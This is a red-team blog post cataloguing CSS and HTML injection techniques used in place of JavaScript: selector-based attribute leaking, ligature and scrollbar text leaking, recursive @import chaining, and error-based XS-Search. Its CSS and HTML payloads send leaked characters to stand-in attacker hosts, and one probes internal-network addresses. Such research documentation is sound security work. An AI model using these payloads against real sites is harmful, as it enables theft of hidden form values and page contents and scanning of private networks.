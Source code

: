 ```yaml
---
layout: post
title: CSS Injection Primitives
date: 2019-10-16 01:00:00
categories: posts
en: true
description: Collection of CSS / HTML primitives. Tricks to use as an alternative to JavaScript (exfiltration, timing, etc.)
keywords: "CSS Injection, HTML Injection, RedTeam, Red Team, XSLeak, Font-range, exfiltration, scriptless, css recursive import"
authors:
    - X-C3LL
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Last Update:__ 2019-12-04

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The intention of this post is to document techniques and tricks that can be used as an alternative to JavaScript in the context of an injection. It is just a recopilation that I will be updating every few months (or at least I gonna try it...). Maybe this kind of recopilation is not useful for the majority of the mortals but I find interesting to "preserve" this information all together. All of them are well-known techniques, nothing fancy here. If you know more primitives please ping me at twitter ([@TheXC3LL](https://twitter.com/TheXC3LL)) so I can add them.


## Exfiltration and ping back
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [HTTP Leaks](https://github.com/cure53/HTTPLeaks/blob/master/leak.html)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
In order to exfiltrate information we can rely on any of the well-known features that trigger an HTTP request to a server controlled by us. Specially we are intersted in those that are CSS related (@import, background, etc.). This will be the keystone to the rest of the tricks.

## HTML attribute exfiltration
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [The Sexy Assassin Tactical Exploitation using CSS](https://slideplayer.com/slide/3493669/), [Exfiltration via CSS Injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Probably this is the most known attack. It is posible to build an oracle that leaks the value of an attribute via [CSS Selectors](https://www.w3.org/TR/selectors-3/#attribute-selectors). CSS Selectors can be used as an expresion to match an element if that element has an attribute that matches the attribute represented by the attribute selector. The selectors can be used to match a substring inside an attribute, à la regex, so we can abuse this feature in a boolean way to find the value of a target attribute.

As an example, if we have something like `<input value="somevalue" type="text">`, we can do something like:

```css
input[value^="a"] { background: url('http://ourdomain.com/?char1=a'); }
input[value^="b"] { background: url('http://ourdomain.com/?char1=b'); }
...
input[value^="s"] { background: url('http://ourdomain.com/?char1=s'); } // This will trigger a HTTP request to our endpoint
...
input[value^="z"] { background: url('http://ourdomain.com/?char1=z'); }
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The __value^=X__ expresion matches any element that contains an attribute "value" which _value_ starts with the prefix __X__. So when all the CSS rules are evaluted, the selector __value^="s"__ will match our target element and trigger the HTTP request to our endpoint, leaking the first char. Then we need to repeat the process with __value^=sX__ to extract the second char, then __value^=soX__ and so on. This can be improved significally if we determine the charset first. In this example only the chars "s,o,m,e,v,a,l,u,e" are used ( 9 vs the size of the whole potential charset) so we can reduce the number of "rules" needed in order to leak the whole string. This can be accomplished via __value*=X__, where __X__ matches any string which contains __X__. Pregenerate selectors that matches all the whole potential charset, then reuse only the ones that matched.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Usually the juicy information is inside inputs elements of type __hidden__. This kind of elements are not rendered by the browser, so (most)browsers no need to retrieve external resources for the element (which is the method used by us to leak the info). This problem can be solved with [CSS combinators](https://www.w3.org/TR/selectors-3/#combinators). 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Using the subsequent-sibling combinator (__~__) it is possible to represent the elements between two selectors. This way we can craft a rule like `input[value^=a] ~ *` that can be translated (roughly) as "elements that are between an input with a value that starts with "a" and anything that share the same parent". 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
To perform this attack we need to update the ruleset to match the next char in each iteration. A shabby approach can be the use of `<meta-refresh...>`. A better idea can be the combination of this attack with CSS import recursion (this technique will be discussed later).

## Text node exfiltration (I): ligatures 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We can extract the text contained in a node with a technique that combines font ligatures and the detection of width changes. The main idea behind this technique is the creation of fonts that contains a predefined ligature with high size and the usage of size changes as oracle.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The fonts can be created as SVG fonts and then converted to woff with fontforge. In SVG we can define the width of a glyph via __horiz-adv-x__ attribute, so we can build something like `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, being XY a sequence of two chars. If the sequence exists, it will be rendered and the size of the text will change. But... how can we detect these changes?

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
When the attribute white-space is defined as __nowrap__ it forces the text to do not break when it exceeds the parent's width. In this situation, an horizontal scrollbar will appear. And we can define the style of that scrollbar, so we can leak when this happens __:)__

```css
body { white-space: nowrap }; 
body::-webkit-scrollbar { background: blue; }
body::-webkit-scrollbar:horizontal { background: url(http://ourendpoint.com/?leak); }
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
At this point the attack is clear: 
1. Create fonts for the combination of two chars with huge width
2. Detect the leak via the scrollbar trick
3. Using the first ligature leaked as base, create new combinations of 3 chars (adding before / after chars)
4. Detect the 3-chars ligature.
5. Repeat until leaking the whole text


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We still needing a improved method to start the iteration because `<meta refresh=...` is suboptimal. CSS recursive imports is our savior!

## CSS Recursive import
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [PoC for leaking text nodes via CSS injection by @cgvwzq](https://github.com/cgvwzq/css-scrollbar-attack/)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
To avoid hardcoding all the steps in the payload (that would be overkill) -or using limited tricks like meta-refresh / iframes- we can use CSS recursive imports. In CSS we can import more rules from external style sheets with the `@import` CSS at-rule. Browsers will try to reach the external resource to get the CSS rules and apply them to format the website. But... what happens when the request to the external style sheet takes too long? That the browser processes the rules settled in the main CSS and when it manages to load the external style sheet those rules will be applied. 


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This behaviour can be abused in order to generate custom CSS rules on the fly. In our injection we can use an import to a style sheet hosted in our server, and this CSS will contain an import to another CSS owned by us plus the rules to leak the first chars (in attributes or in text nodes). The server response to the import will be delayed until we got the leaked char. When we known the first char we can build the custom CSS rules needed to leak the next char and deliver the file (the file will contain another import too, so we can repeat again the process).


## Error-based XS-Search (alternative to onerror)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [CSS based Attack: Abusing unicode-range of @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC by @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This trick is an alternative to onerror. Basically the main idea is to use a custom font from an endpoint controlled by us in an text that will be showed only if the resource can not be loaded. 

```html
<!DOCTYPE html>
<html>
<head>
    <style>
    @font-face{
        font-family: poc; 
        src: url(http://ourenpoint.com/?leak); 
        unicode-range:U+0041;
    }

    #poc0{
        font-family: 'poc';
    }

    </style>
</head>
<body>

<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
</html>
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We can abuse this technique for example to build a network scanner (to scan webs hosted in the internal network, even fingerprint well-known web platforms).


## Text node exfiltration (II): leaking the charset with a default font
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [PoC using Comic Sans by @Cgvwzq & @Terjanq](https://demo.vwzq.net/css2.html)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This trick was released in this [Slackers thread](https://www.reddit.com/r/Slackers/comments/dzrx2s/what_can_we_do_with_single_css_injection/). The charset used in a text node can be leaked using the default fonts intalled in the browser: no external -or custom- fonts are needed. The PoC linked as reference is well commented, so we are just going to highlight some points in a human-readable way __;-)__.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The key is to use an animation to grow the div width from 0 to the end of the text, the size of a char each time. Doing this we can "split" the text in two parts: a "prefix" (the first line) and a "suffix", so every time the div increases its width a new char moves from the "suffix" to the "prefix". Something like:

__C__<br>ADB

__CA__<br>DB

__CAD__<br>B

__CADB__

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
When a new char goes to the first line, the unicode-range trick is used to detect the new character in the prefix. This detection is made changing the font to Comic Sans, which its heigth is superior so a vertical scrollbar is triggered (leaking the char value). This way we can leak every different character one time. __We can detect if a character is repated but not what character is repeated__.



## Final words
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
As I said before I want to keep this collection updated. If you know more tricks, please feel free to ping me at twitter ([@TheXC3LL](https://twitter.com/TheXC3LL)) so I can add them to the list.
